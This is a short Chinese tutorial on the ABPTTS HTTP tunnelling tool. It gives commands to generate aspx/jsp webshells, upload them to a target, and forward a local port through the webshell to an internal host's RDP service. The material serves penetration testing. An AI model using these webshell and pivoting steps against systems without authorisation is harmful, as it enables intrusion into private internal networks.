 ```yaml
---
title: ABPTTS
id: zhfly3437
---
```


## 介绍

Abptts是一款基于python2.7的http加密隧道工具，Abptts能做的很多：

1.  通过http加密隧道转发至目标内网下指定的单个TCP端口

2.  通过http加密隧道同时转发至目标内网下的多台机器上的多个tcp端口

3.  把ssh隧道包裹在http加密隧道中传递，对目标二级内网进行穿透

#### 缺点：不支持PHP

## 使用流程

```
git clone https://github.com/nccgroup/ABPTTS.git
pip install pycrypto
pip install httplib2
cd ABPTTS
python abpttsfactory.py ‐o webshell 
```

在webshell目录里有aspx、jsp等脚本

将对应格式的脚本上传至测试机

```
python abpttsclient.py -c webshell\config.txt -u "http://www.0-sec.org/abptts.aspx" -f 127.0.0.1:1112/127.0.0.1:3389
mstsc 127.0.0.1:1112 
```

设置本地代理 访问内网